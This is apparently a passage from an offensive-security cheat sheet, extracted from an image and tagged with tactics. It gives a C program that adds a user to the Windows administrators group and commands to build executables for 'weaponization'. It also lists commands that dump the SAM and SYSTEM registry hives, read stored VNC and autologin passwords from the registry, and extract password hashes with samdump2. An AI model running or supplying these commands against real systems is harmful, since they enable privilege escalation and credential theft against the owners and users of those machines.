 ```
#include <stdlib.h>
int main ()
{
int i;
    i = system("net localgroup administrators theusername /add");
return 0;
}
```

---

# pyinstaller.py
- serivce: all
- tactics: weaponization

## generate exe from python file in windows
- `python pyinstaller.py --onefile <pythonscript>`

---

# reg.exe
- service: sam
- tactics: credential_access

## dump sam database
- `reg save HKLM\sam sam`
- `reg save HKLM\system system`

## query vnc passwords
- `reg query "HKCU\Software\ORL\WinVNC3\Password"`

## Windows autologin
- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`
- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"`

---

# samdump2
- service: sam
- tactics: credential_access

- `samdump2 SYSTEM SAM > hashes.db`

---
